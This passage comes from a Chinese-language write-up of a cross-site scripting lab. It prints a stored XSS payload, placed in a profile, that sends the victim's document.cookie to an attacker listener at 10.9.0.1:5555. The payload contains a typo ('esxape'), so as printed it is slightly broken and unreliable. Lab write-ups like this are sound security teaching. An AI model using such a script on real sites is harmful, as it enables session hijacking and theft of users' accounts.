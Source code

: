 

保存后，看到已经生效

<img src="./../assets/post/images/uxA5MY6WwpQP28f.png" alt="image-20210720162334798" style="zoom: 67%;" />

# Task 3: Stealing Cookies from the Victim’s Machine

这个 Task 用来熟悉如何发回数据。修改 Samy 的 profile 如图所示

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' +
                   esxape(document.cookie) +
                   '>');
</script>
```

<img src="./../assets/post/images/POaxsDobUyGFJ3g.png" alt="image-20210720162710319" style="zoom:67%;" />
